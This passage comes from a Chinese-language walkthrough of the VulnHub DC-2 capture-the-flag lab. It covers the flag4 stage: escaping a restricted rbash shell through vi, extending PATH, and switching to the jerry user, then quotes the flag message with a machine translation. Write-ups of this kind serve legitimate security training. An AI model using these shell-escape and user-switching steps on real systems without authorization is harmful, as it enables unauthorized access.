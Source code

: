 可见 jerry 用户存在,那么下面就是 rbash 逃逸-->提权

---

# flag4

使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell
```

更改环境变量,把 `/bin/sh` 目录加进去,不然许多命令不好用
```bash
echo $PATH
export PATH=$PATH:/bin:/usr/bin
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/11.png)

ok,现在是正常的 shell 环境了,在提权之前,尝试登录 jerry 用户
```bash
su jerry
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/12.png)

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
机翻
```
很高兴看到您已经做到了这一点-但您还没有回家。

您仍然需要获得最终标志（唯一真正重要的标志！！！）。

这里没有提示-您现在就一个人了。 :-)

继续-git outta here !!!!
```
